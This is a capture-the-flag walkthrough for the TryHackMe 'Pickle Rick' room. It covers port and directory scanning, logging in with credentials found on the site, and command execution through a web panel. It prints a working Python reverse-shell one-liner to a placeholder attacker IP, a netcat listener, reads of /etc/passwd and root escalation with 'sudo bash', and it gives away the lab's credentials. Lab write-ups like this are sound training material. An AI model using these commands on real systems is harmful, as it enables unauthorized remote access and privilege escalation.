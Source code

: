# PICKLERICK ROOM

<p align="center">
  <a href="https://tryhackme.com/p/hernanicyber"><img src="https://denise.matehackers.org/bahackers/images/tryhackme/tryhackme-logo.png")
 alt="thm_profile" width="200" /></a>
  

Link -> https://tryhackme.com/room/picklerick

Difficulty -> Easy

------------------------------------------------

So first lets deploy the machine to attack it!

![Screenshot from 2020-12-13 19-02-29](https://user-images.githubusercontent.com/75812403/102021162-c1fd4100-3d75-11eb-9fd0-9c349f7e7069.png)


Let's go!

## 1 - Let's run nmap!

![nmap](https://user-images.githubusercontent.com/75812403/101993721-a9792200-3cb4-11eb-9e74-f58c791c2966.png)

As you can see, we there are two open ports ( 22 and 80), so 22 for SSH and 80 for HTTP, let's take a look if we can find something relevant on the website
with ```http://IP_MACHINE:80/```.

---------------------

![Screenshot from 2020-12-12 19-07-16](https://user-images.githubusercontent.com/75812403/101993765-18567b00-3cb5-11eb-8b41-1863454c857c.png)

Hmmmm nothing relevant on this page but we need to find the 3 secret ingredients to finish his pickle-reverse potion. Let's take a look of source code.

-----

![Screenshot from 2020-12-12 20-07-40](https://user-images.githubusercontent.com/75812403/101993860-b6e2dc00-3cb5-11eb-863a-758cbc5cf605.png)


Okay we found the username that we need to log in some page or something.

So we got the username that is -> **R1ckRul3s**
Now we need to find the password and a page to login.

-----------
## 2 - Let's see if we got more directories on this web page

Let's try to scan it with gobuster.

![Screenshot from 2020-12-12 20-10-56](https://user-images.githubusercontent.com/75812403/101993935-4daf9880-3cb6-11eb-9606-f39c2ff68b12.png)

Uhh, we got ```/robots.txt``` and ```/login.php``` let's see what we can find in the first page!

--------

![Screenshot from 2020-12-12 19-13-23](https://user-images.githubusercontent.com/75812403/101993954-76d02900-3cb6-11eb-93a3-9be82a21f9c9.png)

![Screenshot from 2020-12-12 19-13-30](https://user-images.githubusercontent.com/75812403/101993966-8bacbc80-3cb6-11eb-8f3e-07276a4a80e6.png)

On the /robots.txt we find this word.

Can be the password for the login that we need :).

---------

Now let's open the ```/login.php```

![Screenshot from 2020-12-12 19-47-28](https://user-images.githubusercontent.com/75812403/101994024-fa8a1580-3cb6-11eb-991c-5b7a12279aa9.png)

Maybe we can use the **R1ckRul3s** and **Wubbalubbadubdub** for the credentials, so let's try!

--------------

![Screenshot from 2020-12-12 19-26-27](https://user-images.githubusercontent.com/75812403/101994048-32915880-3cb7-11eb-8dc3-fadb25acd4fe.png)

We are in!! Now we can execute commands in this page. Let's just simply write the command ```ls``` to see what we got on this directorie.

And we got some interesting file ```Sup3rS3cretPickl3Ingred.txt``` now you can just read the file and you got the first flag! :)

But in this image we can see another interesting file .txt  ```clue.txt``` , so why we don't try to open it? Let's take a look inside of it!

------------------------

![Screenshot from 2020-12-12 19-33-54](https://user-images.githubusercontent.com/75812403/102020742-09ce9900-3d73-11eb-9477-8aaafea7f12b.png)

Hmm so to find the other ingridient we need to look around, so first let's see if we have python running on this machine, so that we can maybe, spawn a reverse shell!

-------------

![Screenshot from 2020-12-12 19-39-00](https://user-images.githubusercontent.com/75812403/102020814-6cc03000-3d73-11eb-8786-31948013ad52.png)


Uhhh we got python running on this machine, so let's create a python payload to spawn a reverse shell for us!

We can use this simple line of code ```python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP_OF_YOUR_MACHINE_IN_THE_THM_NETWORK",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'```

--------------------------------

Now let's create a netcat sessions listening on port 4444

![Screenshot from 2020-12-12 19-39-21](https://user-images.githubusercontent.com/75812403/102020874-f7a12a80-3d73-11eb-86d2-2a3a4b4e5098.png)

And bang!! We got in!!

So now we can take a look around filesystem, let's try to acess home directory first searching for some user directory, so let's run the command 
```cd /home``` , and we can find a directory with a name of ```rick``` let's get in and run command ```ls```

![Screenshot from 2020-12-12 19-45-54](https://user-images.githubusercontent.com/75812403/102021019-d0972880-3d74-11eb-92d0-df47fde82091.png)

We found the seconde flag!! One remains to complete this challenge!

---------------------

Now let's run the command ```cat /etc/passwd``` and we got a list of users and we can see that the **root** is using bash, let's try the command ```sudo bash```
to see if we are allowed to get the shell of root 


![Screenshot from 2020-12-12 19-49-29](https://user-images.githubusercontent.com/75812403/102021077-43a09f00-3d75-11eb-8f40-6ee557f9e5f8.png)


![Screenshot from 2020-12-12 19-49-36](https://user-images.githubusercontent.com/75812403/102021085-4dc29d80-3d75-11eb-9bed-d8897186922c.png)

Yep! And we are in, so now you just have to read the third and the last flag to complete this amazing and very funny challange!!

So challenge solved, hope you enjoyed, and of course I hope have helped you! :)
